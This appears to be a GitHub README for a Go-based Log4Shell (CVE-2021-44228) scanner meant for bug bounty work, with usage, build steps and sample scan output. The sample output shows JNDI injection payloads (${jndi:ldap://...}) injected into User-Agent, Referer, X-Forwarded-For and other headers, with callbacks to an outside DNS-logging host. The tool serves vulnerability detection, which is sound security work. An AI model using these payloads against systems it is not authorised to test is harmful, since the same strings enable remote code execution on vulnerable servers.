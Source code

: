 ###  log4shell-looker a log4jshell vulnerability scanner for bug bounty

(Written in Go because, you know, "write once, run anywhere.")

This is a simple tool that can be used to find vulnerable instances of
log4j 1.x and 2.x (CVE-2021-44228) in installations of
Java software such as web applications.

The scan tool currently checks for discover log4shell vulnerability, current feature of tools:  `Cookies` and `Content-Type` and `URL Path`, `User-Agent`


# Using the scanner
```bash
$ go run main.go --help
Usage of main:
  -mode string
        please usage mode [urlpath, header, useragent] (default "[urlpath, header, useragent, cookie, contents]")
  -url string
        please enter you url for scan (default "url")


$ go run main.go -mode=useragent -url=http://127.0.0.1:8080
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  User-Agent:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 0 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  Referer:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 1 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  X-Forwarded-For:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 2 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  Authentication:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 3 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  X-Api-Version:${jndi:ldap://rfcbd0.dnslog.cn/}
[***] DNS log result :  [["rfcbd0.dnslog.cn","172.253.238.4","2021-12-16 14:45:19"]]
[***] Is Vulnerability to CVE-2021-44228 - [critical]
```

# Building from source

Install a [Go compiler](https://golang.org/dl).

Run the following commands in the checked-out repository:
```
go run main.go -mode=header -url=https://www.example.com/
Or
go build -o main
```
(Add the appropriate `.exe` extension on Windows systems, of course.)

# License

GNU General Public License, version 3

# Author

Ramin Farajpour Cami <<ramin.blackhat@gmail.com>>


